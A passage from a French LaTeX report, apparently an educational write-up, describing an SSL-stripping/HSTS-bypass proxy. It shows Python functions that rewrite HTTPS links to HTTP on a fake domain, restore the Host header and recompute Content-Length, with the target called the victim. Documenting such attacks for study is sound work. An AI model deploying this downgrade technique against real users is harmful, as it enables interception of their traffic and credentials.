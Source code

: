 À la fin, on transforme tous les liens HTTPS trouvés en HTTP en remplaçant le nom de domaine  par le faux nom de domaine , on met l'entête Host vers le bon domaine et on recalcule la taille de la requête (entête Content-Lenght)

\subparagraph{Transformation des liens \\}

Dans cette fonction, nous utilisons une expression régulière afin de remplacer tous les liens  en .

\begin{verbatim}
def __replace_https_to_http(self, data):
    return re.sub(b'https://' + bytes(FORWARD_HOST_HSTS),
                  b'http://' + bytes(FAKE_HOST), data)
\end{verbatim}

\subparagraph{Modification de l'entête Host}

Lorsque la victime est redirigée vers un lien , l'entête Host de ses requêtes sera erronée. Cette fonction modifie cette entête pour que le serveur puisse recevoir un Host correct.

\begin{verbatim}
def __replace_host(self, data):
    return re.sub(b'Host: ' + bytes(FAKE_HOST),
                  b'Host: ' + bytes(FORWARD_HOST_HSTS), data)
\end{verbatim}


\subparagraph{Recalcul de l'entête Content-Length}

La taille de la requête étant modifiée par le proxy, celui-ci doit recalculer l'entête Content-Length en se basant sur la chaîne "{\textbackslash}r{\textbackslash}n{\textbackslash}r{\textbackslash}n" signalant la fin des entêtes dans le protocole HTTP.

\begin{verbatim}
def __replace_content_length(self, data):
    try:
        idx = data.index(b"\r\n\r\n")
        length = len(data) - idx - 4
        return re.sub(b'Content-Length: (\d+)',
                      b'Content-Length: %d' % length, data, 1)
    except:
        return data
\end{verbatim}

\subsubsection{Étape 3 : Pendant l'attaque}

